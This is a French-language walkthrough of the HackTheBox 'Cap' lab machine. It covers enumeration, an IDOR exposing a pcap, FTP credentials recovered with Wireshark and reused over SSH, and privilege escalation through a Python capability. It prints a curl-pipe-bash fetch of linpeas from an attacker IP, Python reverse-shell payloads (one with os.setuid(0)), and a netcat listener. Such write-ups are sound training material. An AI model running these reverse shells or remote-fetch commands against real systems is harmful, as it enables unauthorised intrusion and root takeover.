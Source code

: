 # Cap [Linux] Easy

[https://app.hackthebox.com/machines/Cap](https://app.hackthebox.com/machines/Cap)

**— 1. Enumeration —**

`nmap -sC -sV 10.10.10.245`

A partir de la nous voyons que la machine héberge un serveur Apache.

**— 2. Le site & Pcap —**

Sur le site il n’y a pas de vulnérabilité c’est un site vitrine.

![Untitled](Cap%20%5BLinux%5D%20Easy%2096a2a0035b50428d9b105b47cdb76546/Untitled.png)

Et la première chose que nous pouvons faire est allé sur la page la plus suspecte “Security Snapshot (5 Second PCAP + Analysis).

Quand on change l’uri pour 10.10.10.245/data/0 on tombe sur un pcap plus remplit que les autres pages. C’est un IDOR.

![Untitled](Cap%20%5BLinux%5D%20Easy%2096a2a0035b50428d9b105b47cdb76546/Untitled%201.png)

On Download le pcap et passons a l’analyse.

**— 3. Analyse avec WireShark —**

On regarde les protocoles utilisé le FTP est utilisé c’est parfait car il affiche tout en clair.

On vois que l’utilisateur nathan c’est connecté.

On récupère ces logs `nathan:Buck3tH4TF0RM3!`

On se connecte au ssh du serveur port 22 et nathan réutilise ces mot de passe ce qui nous permet de se connecter a son ordinateur.

on prend directement le `flag.txt`

**— 4. LinuxEnumeratrion & Escalation Privilege —**

Il ne manque plus que le root.txt pour finir la machine.

Alternative : `curl [http://10.10.14.24/linpeas.sh](http://10.10.14.24/linpeas.sh) | bash`

On créé un serveur python `python -m http.server 80` sur notre machine avec linpeas (liens ⬇️)

[Releases · carlospolop/PEASS-ng](https://github.com/carlospolop/PEASS-ng/releases)

LinPeas trouve énormément de chose mais le plus intéressant sont celle qui sont surligné en jaune.

Sur cette machine voici la vulnérabilité :

![Untitled](Cap%20%5BLinux%5D%20Easy%2096a2a0035b50428d9b105b47cdb76546/Untitled%202.png)

Cette vulnérabilité est connu il suffit de lancer un payload de reverse shell avec la commande python à exploiter et ca version.

Le payload originel de PayloadsAllTheThings (Liens a la fin) :

```python
export RHOST="10.0.0.1";export RPORT=4242;python -c 'import socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'
```

Le payload modifié pour cette exploit : ( Noter que nous avons rajouter 3.8 à python pour ça version et rajouter os.setuid(0) pour exploiter la vulnérabilité). 

```python
export RHOST="10.0.0.1";export RPORT=4242;python3.8 -c 'import socket,os,pty;os.setuid(0);s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'
```

Vous devez impérativement mettre un netcat sur le port de votre payload python: 

`netcat -lvnp 4242`

Il ne reste plus qu’à récupérer le flag `root.txt` dans /root.

**Ressources :**

[PayloadsAllTheThings/Reverse Shell Cheatsheet.md at master · swisskyrepo/PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#python)